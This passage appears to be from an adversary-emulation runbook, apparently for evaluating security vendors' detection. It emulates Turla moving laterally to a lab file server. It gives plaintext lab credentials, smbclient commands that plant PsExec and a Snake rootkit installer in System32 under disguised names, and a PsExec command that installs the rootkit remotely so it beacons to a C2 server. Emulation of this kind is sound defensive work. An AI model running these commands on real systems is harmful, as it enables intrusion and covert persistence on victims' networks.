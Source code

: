 ## Test 11: Snake Lateral Movement to File Server

:microphone: `Voice Track:`

Test 11 emulates Turla using the discovered admin account to laterally move to the file server and install the Snake rootkit on it, and then
using Powershell to perform Active Directory user, group, and computer discovery.

---

### ☣️ Procedures

:arrow_right: RDP into `berzas (10.100.30.204)` as `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin  | Producer1! |

* Close any spurious windows

:arrow_right: Return to your Kali C2 server

* From your `smbclient` Kali terminal tab, copy PsExec and the second Snake installer to `Azuolas`.

```bash
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/PsExec.exe Windows\System32\file_svc_mgr.exe'
smbclient -U 'nk\EgleAdmin'%'Producer1!' //10.100.40.103/c$ -c 'put /opt/day2/turla/Resources/payloads/snake/installer_v2.exe Windows\System32\cmu_svc_v2.exe'
```

:arrow_right: Return to your RDP session to `Azuolas (10.100.40.103)` as `Egle` and look for indications of vendor blocking activity.

* Open File Explorer and browse to `C:\Windows\System32`. Order files by date.

* In the :heavy_exclamation_mark: `EgleAdmin` Powershell terminal, run the following command to execute PsExec, which will run the Snake installer on the file server `berzas`:

```powershell
C:\Windows\System32\file_svc_mgr.exe \\berzas -accepteula -s -c "C:\Windows\System32\cmu_svc_v2.exe"
```

* Check both the `Egle` and `EgleAdmin` RDP windows for indications of the vendor blocking the activity.

:arrow_right: Return to your RDP session to `berzas (10.100.30.204)` as `EgleAdmin`

* Open Edge and navigate to <https://www.google.com>. Perform a search on `File server configuration best practices`, but don't click on any results.

:arrow_right: Check the Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server.

* From your lower Kali C2 control server terminal window, task Snake to check if the `ActiveDirectory` PowerShell module is installed.
